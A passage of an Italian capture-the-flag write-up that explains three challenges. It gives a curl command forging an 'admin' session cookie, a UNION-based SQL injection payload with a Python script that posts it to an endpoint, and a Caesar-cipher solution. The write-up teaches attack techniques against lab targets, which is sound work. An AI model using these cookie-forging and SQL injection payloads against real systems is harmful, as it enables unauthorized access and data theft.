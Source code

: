 La flag può quindi essere trovata con questo comando:
```sh
#!/bin/sh
curl --cookie "user=admin" https://biscotto.challs.pascalctf.it/me
```

La vulnerabilità si trova nella funzione **me**, dove il cookie di sessione, non crittografato, viene utilizzato per verificare il nome utente.
Per ottenere la flag, basta modificare il cookie **user**, impostandolo su admin, e accedere all'endpoint per visualizzare la flag.

### Euro2024
La challenge riguarda un'applicazione web che fornisce statistiche per diversi gruppi partecipanti a un torneo. L'obiettivo è sfruttare una vulnerabilità di **SQL Injection** per estrarre la flag.

La soluzione proposta utilizza un attacco di **SQL Injection** per recuperare la flag dal database. Di seguito è riportata l'analisi dell'approccio:

#### 1. Understanding the Vulnerability
L'endpoint `/api/group-stats` sembra essere vulnerabile a SQL Injection. Il parametro di input `group` viene inserito direttamente in una query SQL senza una corretta sanitizzazione.

#### 2. Crafting the Payload
Il payload utilizzato per sfruttare la vulnerabilità è:

```sql
' UNION SELECT flag, null, null, null, null, null, null, null FROM FLAG; -- -
```

Di seguito sono elencati i vari passaggi del payload:
- Esce dal contesto della query esistente utilizzando `' UNION SELECT`.
- Seleziona la colonna `flag` dalla tabella `FLAG`.
- Utilizza valori `null` per corrispondere al numero previsto di colonne.
- Commenta il resto della query SQL per prevenire errori di sintassi.

Questo è il codice effettivamente utilizzato anche dal checker:
```python
#!/usr/bin/env python3
import requests
URL = 'http://localhost:8002'
PAYLOAD = "' UNION SELECT flag" + ", null" * 7 + " FROM FLAG; -- -"

r = requests.post(URL + '/api/group-stats', data={'group' : PAYLOAD})
print(r.json()['data'][0]['group_id'])```
```

## Cryptography 🔒
### Romañs Empyre
Questa challenge `"cripta"` la flag in modo molto semplice, scegliendo **casualmente** una chiave utilizzata per codificare la flag tramite il [`Cifrario di Cesare`](https://it.wikipedia.org/wiki/Cifrario_di_Cesare).  
Il risultato di questa cifratura si trova in `output.txt` e può essere decifrato utilizzando [`cyberchef.org`](https://gchq.github.io/CyberChef/) oppure tramite il writeup Python allegato a questa challenge.

